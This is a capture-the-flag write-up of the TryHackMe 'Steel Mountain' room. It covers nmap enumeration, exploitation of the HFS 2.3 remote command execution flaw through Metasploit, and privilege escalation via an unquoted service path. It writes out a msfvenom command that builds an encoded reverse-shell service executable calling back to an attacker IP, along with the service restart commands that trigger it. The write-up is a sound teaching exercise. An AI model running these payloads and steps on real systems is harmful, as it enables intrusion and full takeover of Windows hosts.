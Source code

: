 ```yaml
---
title: "TryHackMe - Steel Mountain"
author: Nasrallah
description: ""
date: 2022-05-15 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, Windows, metasploit, msfvenom, usp]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Steel Mountain](https://tryhackme.com/room/steelmountain) from [TryHackMe](https://tryhackme.com). It's a windows machine running a vulnerable webserver, the vulnerability permits us to execute commands remotely, so we used an exploit to get a reverse shell. Once we're in the machine, we find a service with an unquoted service path, we create and exploit for that and use it to escalate our privileges. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.36.31
Host is up (0.10s latency).        
Not shown: 989 closed tcp ports (reset) 
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5 
|_http-title: Site doesn't have a title (text/html).  
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc              Microsoft Windows RPC                                                                                                      
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2022-05-15T09:46:41
|_Not valid after:  2022-11-14T09:46:41
|_ssl-date: 2022-05-16T10:19:46+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-16T10:19:42
|_  start_date: 2022-05-16T09:46:29
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:80:6a:01:02:d7 (unknown)
```

We got plenty of open ports, and we can see it's a windows machine.

## Web

Let's navigate to the webserver on port 80.

![](/assets/img/tryhackme/steel/1.png)

Let's view the source code.

![](/assets/img/tryhackme/steel/2.png)

We got the name of the employee of the month, it's Bill Harper.

On the other webserver, we see that it's running `http file server 2.3`, let's see if there is any vulnerabilities in this version.

![](/assets/img/tryhackme/steel/3.png)

There is a remote command execution vulnerability.

# **Foothold**

## Metasploit

To get foothold using `metasploit`, we can use this exploit `exploit/windows/http/rejetto_hfs_exec`.

Launch metasploit by running `msfconsole`, and run `use exploit/windows/http/rejetto_hfs_exec`.

After that, we need to specify the RHOSTS, RPORT and LHOST.
 
 - RHOSTS: is the target machine's IP.
 - RPORT : is the port of the vulnerable web server (8080).
 - LHOST : is the attacker machine's IP, tun0.

![](/assets/img/tryhackme/steel/4.png)

## Exploit

To get foothold without metasploit, we can use exploits found in [Exploit-DB](https://www.exploit-db.com/) or other places..

In this example, I'll be using this [Exploit](https://github.com/NullByte007/Exploits/blob/master/Rejetto_HFS_2.3.X_RCE/HFS_RCE.py).

![](/assets/img/tryhackme/steel/5.png)


# **Privilege Escalation**

For this part, we're going to use the script suggested in the room; [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). We'll upload it using meterpreter, and load powershell in order to execute the script.

![](/assets/img/tryhackme/steel/6.png)

Now, we need to load the script with the command `. .\PowerUp.ps1` and the execute it with `Invoke-AllCheck`.

![](/assets/img/tryhackme/steel/7.png)

We can see that the `AdvancedSystemCareService9` service has an unquoted service path, we can restart it, and have write permissions on it's folder.

Let's create an executable that would sends us a shell once it's executed.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Then we need to upload the `Advanced.exe` file to the machine, and put it in the correct folder.

![](/assets/img/tryhackme/steel/8.png)


Next, we need to setup a multi handler listener to catch the reverse shell.

![](/assets/img/tryhackme/steel/9.png)

Now, we need to restart the `AdvancedSystemCareService9` service. To do that, we have to stop it with the command `sc stop AdvancedSystemCareService9` and start it with `sc start AdvancedSystemCareService9`. All that need to happen in a windows command shell, so type `shell` in meterpreter.

![](/assets/img/tryhackme/steel/10.png)

Now if we go to our multi handler listener, we should see a windows shell, and we have system privileges.

![](/assets/img/tryhackme/steel/11.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
